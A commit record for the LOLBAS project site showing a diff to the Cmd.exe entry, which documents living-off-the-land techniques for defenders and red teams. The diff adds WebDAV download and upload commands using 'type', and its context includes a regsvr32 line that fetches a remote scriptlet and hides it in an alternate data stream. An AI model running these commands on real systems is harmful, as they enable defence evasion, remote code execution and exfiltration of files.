

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/Binaries/Cmd.md, in a window 1280 px wide and 1400 px high, scrolled down 512 px. Shown: the top 1332 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1180 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Applying update LOLBAS-Project/LOLBAS@2b7fdcac03ab837bb614a029743a5f39374b27bc

```diff
--- a/_lolbas/Binaries/Cmd.md
+++ b/_lolbas/Binaries/Cmd.md
@@ -1,7 +1,7 @@
 ---
 Name: Cmd.exe
 Description: The command-line interpreter in Windows
-Author: 'Ye Yint Min Thu Htut'
+Author: Ye Yint Min Thu Htut
 Created: 2019-06-26
 Commands:
   - Command: cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct ^scrobj.dll > fakefile.doc:payload.bat
@@ -9,7 +9,7 @@ Commands:
     Usecase: Can be used to evade defensive countermeasures or to hide as a persistence mechanism
     Category: ADS
     Privileges: User
-    MitreID: T1059.003
+    MitreID: T1564.004
     OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
   - Command: cmd.exe - < fakefile.doc:payload.bat
     Description: Execute payload.bat stored in an Alternate Data Stream (ADS).
@@ -18,6 +18,20 @@ Commands:
     Privileges: User
     MitreID: T1059.003
     OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
+  - Command: type \\webdav-server\folder\file.ext > C:\Path\file.ext
+    Description: Downloads a specified file from a WebDAV server to the target file.
+    Usecase: Download/copy a file from a WebDAV server
+    Category: Download
+    Privileges: User
+    MitreID: T1105
+    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
+  - Command: type C:\Path\file.ext > \\webdav-server\folder\file.ext
+    Description: Uploads a specified file to a WebDAV server.
+    Usecase: Upload a file to a WebDAV server
+    Category: Upload
+    Privileges: User
+    MitreID: T1048.003
+    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
 Full_Path:
   - Path: C:\Windows\System32\cmd.exe
   - Path: C:\Windows\SysWOW64\cmd.exe
```
Also changed, not shown: other parts of _lolbas/Binaries/Cmd.md (+5 -0 lines).
